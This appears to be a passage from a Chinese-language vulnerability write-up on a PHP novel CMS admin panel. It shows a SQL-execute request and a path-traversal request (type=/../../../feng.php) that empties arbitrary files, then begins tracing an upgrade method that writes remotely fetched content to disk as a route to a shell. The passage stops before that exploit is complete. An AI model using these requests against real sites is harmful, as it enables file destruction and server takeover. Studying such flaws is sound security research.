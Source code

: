 进行数据库的处理：

```php
POST /admin/tool/sqlexecute.html

sql= update {pre}novel set status = 0
```



然后进行清空：

```
http://xxxxxx/admin/tool/sitemap_progress

type=/../../../feng.php
```



即可成功清空文件，实现任意文件清空。



## 新的任意文件写入

还是继续对admin模块下的功能代码一个一个看，本来想着应该拿不到shell了，结果运气不错又找到了一个新的getshell，又一个可以任意文件写的点，真是太爽了。感觉这个shell比phar的那个shell质量要高一点。



漏洞位于`application/admin/controller/Upgrade.php`的`update`方法：

```php
    public function update(){
        $Upgrade=model('upgrade');
        if(false !== $up_return=$Upgrade->updates()){
            return json(['code'=>1,'number'=>$up_return],200);
        }else{
            return json(['code'=>0,'error'=>$Upgrade->getError()],200);
        }
    }
```

跟进`$Upgrade->updates()`方法：

```php
    public function updates(){
        $num=Request::get('num',0);
        $upArray=$this->upContent();
        $upCode=Http::doGet(Config::get('web.official_url').'/'.$upArray[$num]['file_name']);
        if(!$upCode){
            $this->error="读取远程升级文件错误，请检测网络！";
            return false;
        }
        $dir = dirname($upArray[$num]['stored_file_name']);
        if(!is_dir($dir))
            mkdir($dir,0755,true);
         if(false === @file_put_contents($upArray[$num]['stored_file_name'],$upCode)){
            $this->error="保存文件错误，请检测文件夹写入权限！";
            return false;
         }
        return $num+1;
    }
```
